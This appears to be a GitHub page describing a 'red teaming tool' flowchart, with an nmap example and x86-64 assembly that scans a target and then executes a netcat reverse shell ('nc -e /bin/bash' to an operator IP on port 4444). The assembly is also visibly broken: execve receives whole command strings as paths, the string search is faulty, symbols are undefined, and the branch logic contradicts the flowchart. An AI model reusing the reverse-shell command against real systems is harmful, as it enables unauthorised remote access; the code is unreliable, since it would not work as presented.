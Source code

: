 
</head>
<body>

<h1>Red Teaming Tool Flow</h1>
    <h2>Process Overview</h2>

<div class="section-header">User Input</div>
    <table>
        <tr>
            <td>
                <ul>
                    <li><strong>Target IP</strong></li>
                    <li><strong>Operator IP</strong></li>
                    <li><strong>Port</strong></li>
                </ul>
            </td>
            <td class="arrow">▶</td>
            <td>
                <ul>
                    <li><strong>AsmScan Shell</strong></li>
                    <li>Validate Inputs</li>
                    <li>Prepare for Scan</li>
                </ul>
            </td>
            <td class="arrow">▶</td>
            <td>
                <ul>
                    <li><strong>Nmap Execution</strong></li>
                    <li>Options: <code>-sS, -sV, -p-</code></li>
                    <li>Run Full Nmap Scan</li>
                </ul>
            </td>
        </tr>
</table>

<div class="section-header">Parse Nmap Results</div>
    <table>
        <tr>
            <td colspan="5">
                <ul>
                    <li>Check for "open" services</li>
                </ul>
            </td>
        </tr>
    </table>

<div class="section-header">Service Found?</div>
    <table>
        <tr>
            <td>
                <ul>
                    <li>Yes → <strong>Reverse Shell</strong></li>
                    <li>No → <strong>Monitor Loop</strong></li>
                </ul>
            </td>
        </tr>
    </table>

 <div class="section-header">Monitor Loop</div>
    <table>
        <tr>
            <td>
                <ul>
                    <li>Retry or Scan Continuously</li>
                </ul>
            </td>
            <td class="arrow">▶</td>
            <td>
                <ul>
                    <li><strong>Reverse Shell</strong></li>
                    <li>Execute <code>nc</code> (netcat) for shell</li>
                </ul>
            </td>
        </tr>
    </table>

<div class="section-header">Exit or Retry</div>

<h2>🔧 Example Code Snippet</h2>
    <pre>
# Simple Nmap Scan Example
nmap -sS -sV -p- $TARGET_IP -oN scan_results.txt
    </pre>

</body>
</html>
<img
    src="Screenshot 2025-04-28 063837.png"
    alt="Workflow Screenshot showing flowchart steps"
    class="screenshot"
    width="800"
/>

  <p>
    The above screenshot illustrates our red-teaming tool architecture, with inputs on the left (Target IP, Operator IP, Port), 
    scanning steps (AsmScan Shell → Nmap Execution), decision logic (open services?), 
    and the reverse shell or monitor loop branches on the right. 
  </p>

</body>
</html>

---

section .data
    nmap_cmd db "nmap -sS -sV -sC -Pn -p- ", 0       ; Nmap command
    target db "192.168.1.1", 0                        ; Target IP (can change)
    reverse_shell_cmd db "nc -e /bin/bash 192.168.1.2 4444", 0 ; Reverse shell command
    result_file db "nmap_result.txt", 0                 ; File to store Nmap results

section .bss
    file_descriptor resb 1

section .text
    global _start

_start:
    ; Print message "Starting Nmap scan..."
    mov rdi, message
    call print_string

    ; Run Nmap (system call execve)
    ; execve("/bin/nmap", ["nmap", "-sS", "-sV", "-sC", "-Pn", "-p-", target], NULL)
    mov rax, 59                           ; execve syscall number (59)
    lea rdi, [nmap_cmd]                    ; Pointer to command
    lea rsi, [target]                      ; Pointer to target IP
    xor rdx, rdx                           ; No environment variables (NULL)
    syscall                                 ; Execute Nmap

    ; Check if the service is active (result is stored in nmap_result.txt)
    ; Open the result file to check for "open" ports
    mov rax, 2                              ; sys_open syscall number (2)
    lea rdi, [result_file]                  ; Pointer to filename
    mov rsi, 0                              ; Flags (read only)
    xor rdx, rdx                            ; Mode
    syscall                                 ; Open the file
    mov [file_descriptor], rax             ; Store file descriptor

    ; Read file content (check for "open" in nmap_result.txt)
    mov rax, 0                              ; sys_read syscall number (0)
    mov rdi, [file_descriptor]              ; File descriptor
    lea rsi, [file_buffer]                  ; Buffer to read file
    mov rdx, 256                            ; Read up to 256 bytes
    syscall                                 ; Read file

    ; Check for "open" in the buffer
    lea rdi, [file_buffer]                  ; Pointer to buffer
    call check_for_open                     ; Call the function to check for open ports

    ; If "open" found, go to service_active
    cmp rax, 1                              ; Check if "open" found
    je service_active

    ; Service is not active, attempt reverse shell
    mov rdi, reverse_shell_cmd
    call execute_reverse_shell

service_active:
    ; Service is active, continue monitoring (in real case, loop and monitor)
    ; This is just an example, so we'll exit here.

    ; Exit syscall (exit code 0)
    mov rax, 60                             ; sys_exit syscall number (60)
    xor rdi, rdi                            ; Exit code 0
    syscall                                 ; Exit

; Check if the string "open" exists in the buffer
check_for_open:
    ; rdi points to the buffer
    mov rbx, "open"                        ; Searching for the string "open"
    xor rcx, rcx                           ; Set rcx to 0, to loop through the buffer

.loop_check:
    mov al, byte [rdi + rcx]               ; Load byte from buffer
    cmp al, byte [rbx + rcx]               ; Compare with "open"
    jne .not_open                           ; If not equal, continue
    inc rcx
    cmp byte [rbx + rcx], 0                 ; Check if we reached the end of "open" string
    je .found_open                          ; If found, jump to success
    jmp .loop_check

.not_open:
    inc rcx
    cmp byte [rdi + rcx], 0                 ; End of buffer?
    jne .loop_check                         ; Keep searching if not

    ; No "open" found
    xor rax, rax                            ; Set return value 0 (not found)
    ret

.found_open:
    mov rax, 1                              ; Return 1 if "open" was found
    ret

; Function to execute the reverse shell command
execute_reverse_shell:
    mov rax, 59                             ; execve syscall number (59)
    lea rdi, [reverse_shell_cmd]            ; Pointer to reverse shell command
    xor rsi, rsi                            ; No arguments (NULL)
    xor rdx, rdx                            ; No environment variables
    syscall                                 ; Execute reverse shell

; Print string function
print_string:
    mov rax, 0x1                            ; sys_write syscall number (1)
    mov rdi, 0                              ; File descriptor 0 (stdout)
    mov rdx, 256                            ; Maximum number of bytes to write
    syscall                                 ; Write to stdout
    ret
